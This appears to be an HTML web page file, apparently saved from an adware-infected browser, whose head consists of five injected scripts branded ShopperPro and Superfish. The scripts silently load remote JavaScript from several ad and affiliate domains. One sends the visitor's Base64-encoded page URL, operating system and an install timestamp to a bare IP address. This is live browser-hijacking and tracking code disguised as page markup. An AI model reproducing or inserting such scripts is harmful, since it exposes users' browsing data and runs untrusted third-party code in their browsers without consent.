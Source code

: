 # Web-page-
w2
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" 
    "http://www.w3.org/TR/html4/loose.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<script type='text/javascript'>(function() {  var GoobIsInFrame = (window.location != window.parent.location); if(GoobIsInFrame) return; var DP_SP_GOOB157_BrowserName = 'iexplore.exe';var DP_SP_GOOB157_BR_Latter = DP_SP_GOOB157_BrowserName.charAt(0);var DP_SP_GOOB157_ChannelID = DP_SP_GOOB157_BR_Latter + '' + '' + '';var DP_SP_GOOB157_ScriptUrl = '';var DP_SP_GOOB157_protocol = document.location.protocol;if (DP_SP_GOOB157_protocol == 'https')DP_SP_GOOB157_ScriptUrl = 'https://i_qrsbjs_info.tlscdn.com/sbitin/javascript.js';else DP_SP_GOOB157_ScriptUrl = 'http://i.qrsbjs.info/sbitin/javascript.js';DP_SP_GOOB157_ScriptUrl += '?hid=' +'' + '&channel=' + DP_SP_GOOB157_ChannelID;var DP_SP_GOOB157_Element = document.createElement('script');DP_SP_GOOB157_Element.setAttribute('type','text/javascript');DP_SP_GOOB157_Element.src = DP_SP_GOOB157_ScriptUrl;document.head.appendChild(DP_SP_GOOB157_Element);})();</script>
<script type='text/javascript'>(function() {var GoobIsInFrame = (window.location != window.parent.location); if(GoobIsInFrame) return; var Base64 = {_keyStr : 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=', encode : function (input) { var output = ''; var chr1, chr2, chr3, enc1, enc2, enc3, enc4; var i = 0; input = Base64._utf8_encode(input);while (i < input.length) {chr1 = input.charCodeAt(i++); chr2 = input.charCodeAt(i++); chr3 = input.charCodeAt(i++); enc1 = chr1 >> 2; enc2 = ((chr1 & 3) << 4) | (chr2 >> 4); enc3 = ((chr2 & 15) << 2) | (chr3 >> 6);enc4 = chr3 & 63;if (isNaN(chr2)) {enc3 = enc4 = 64;} else if (isNaN(chr3)) {enc4 = 64;}output = output +Base64._keyStr.charAt(enc1) + Base64._keyStr.charAt(enc2) + Base64._keyStr.charAt(enc3) + Base64._keyStr.charAt(enc4);}return output;},_utf8_encode : function (string) {var utftext = '';for (var n = 0; n < string.length; n++) {var c = string.charCodeAt(n);if (c < 128) {utftext += String.fromCharCode(c);}else if((c > 127) && (c < 2048)) { utftext += String.fromCharCode((c >> 6) | 192);utftext += String.fromCharCode((c & 63) | 128);} else {utftext += String.fromCharCode((c >> 12) | 224);utftext += String.fromCharCode(((c >> 6) & 63) | 128);utftext += String.fromCharCode((c & 63) | 128);}}return utftext;}};if (!window.btoa)window.btoa = Base64.encode;var installDate = Math.round(new Date().getTime()/1000); var browserName ='iexplore.exe' ;var browserVer = '';var os =  navigator.platform;var EncodedUrl = window.btoa(document.URL);var userID = '';var shpro_url = 'http://54.221.210.134/app/t.ashx?';shpro_url += 'uid=' + userID;shpro_url += '&bn=' + browserName;shpro_url += '&bv=' + browserVer;shpro_url += '&shpro_url=' + EncodedUrl;shpro_url += '&prd=ShopperPro';shpro_url += '&os=' + os;shpro_url += '&id=' + installDate;shpro_url += '&aff=' + '';shpro_url += '&ver=' + '1.0.4.0';var Element = document.createElement('img');Element.setAttribute('type','text/javascript');Element.src = shpro_url;document.head.appendChild(Element);})();</script>
<script type='text/javascript'>(function() {var GoobIsInFrame = (window.location != window.parent.location); if(GoobIsInFrame) return; var JW_SP_GOOB157BrowserName = 'iexplore.exe';var JW_SP_GOOB157BR_Latter = JW_SP_GOOB157BrowserName.charAt(0);var JW_SP_GOOB157_ShopperID = JW_SP_GOOB157BR_Latter + '' + '' + '';var JW_SP_GOOB157_url = '//api.jollywallet.com/affiliate/client?dist=141&sub=' + JW_SP_GOOB157_ShopperID + '&name=ShopperPro';var JW_SP_GOOB157_Element =  document.createElement('script');JW_SP_GOOB157_Element.setAttribute('type','text/javascript');JW_SP_GOOB157_Element.src = JW_SP_GOOB157_url;document.head.appendChild(JW_SP_GOOB157_Element);})();</script>
<script type='text/javascript'>(function() {var GoobIsInFrame = (window.location != window.parent.location); if(GoobIsInFrame) return; var SP_SP_GOOB157SP_SP_GOOB157BrowserName = 'iexplore.exe';var SP_SP_GOOB157BR_Latter = SP_SP_GOOB157SP_SP_GOOB157BrowserName.charAt(0);var SP_SP_GOOB157_ShopperID = SP_SP_GOOB157BR_Latter + '' + '' + '';var SP_SP_GOOB157_url = 'https://www.superfish.com/ws/sf_main.jsp?dlsource=viktczu&userId=&CTID='+SP_SP_GOOB157_ShopperID;var SP_SP_GOOB157_Element =  document.createElement('script');SP_SP_GOOB157_Element.setAttribute('type','text/javascript');SP_SP_GOOB157_Element.src = SP_SP_GOOB157_url;document.head.appendChild(SP_SP_GOOB157_Element);})();</script>
<script type='text/javascript'>(function() { var GoobIsInFrame = (window.location != window.parent.location); if(GoobIsInFrame) return; var JW_SP_NoProblemProtocol = document.location.protocol;var JW_SP_NoProblem_url = JW_SP_NoProblemProtocol + '//nps.noproblemppc.com/npsb/logic.js?OriginId=6E35F62E-F851-E311-A2C4-001517D1792A&SiteId=Sales&PartnerID=85200&ToolbarId=' + '';var JW_SP_NoProblem_Element =  document.createElement('script');JW_SP_NoProblem_Element.setAttribute('type','text/javascript');JW_SP_NoProblem_Element.src = JW_SP_NoProblem_url;document.head.appendChild(JW_SP_NoProblem_Element);})();</script>